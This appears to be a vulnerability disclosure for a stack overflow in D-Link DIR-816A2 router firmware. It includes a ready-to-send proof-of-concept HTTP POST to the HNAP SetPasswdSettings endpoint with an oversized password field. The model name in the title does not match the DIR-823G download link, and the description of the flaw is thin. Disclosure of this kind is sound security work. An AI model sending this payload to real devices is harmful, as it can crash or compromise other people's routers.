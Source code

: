 # DIR-816A2_FWv1.10CNB05_R1B011D88210.img Stack overflow vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-823G

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

35 lines of code try to process the incoming password, if the processing fails, execute 53 lines of code to set the password to empty.

![](img/2.png#center)


## Vulnerability verify

![](img/3.gifg#center)


## POC

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://purenetworks.com/HNAP1/SetPasswdSettings"
HNAP_AUTH: 8D2D80BB8F1D63D9FF6E08DE6B821073 1675516820
X-Requested-With: XMLHttpRequest
Content-Length: 508
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/SNTP.html
Cookie: uid=GcfQ7q3TwY; PrivateKey=455D512F7EA7AA45CC1B4CBB4562DE49; timeout=106

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetPasswdSettings xmlns="http://purenetworks.com/HNAP1/"><NewPassword>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA</NewPassword><ChangePassword>true</ChangePassword></SetPasswdSettings></soap:Body></soap:Envelope>
```
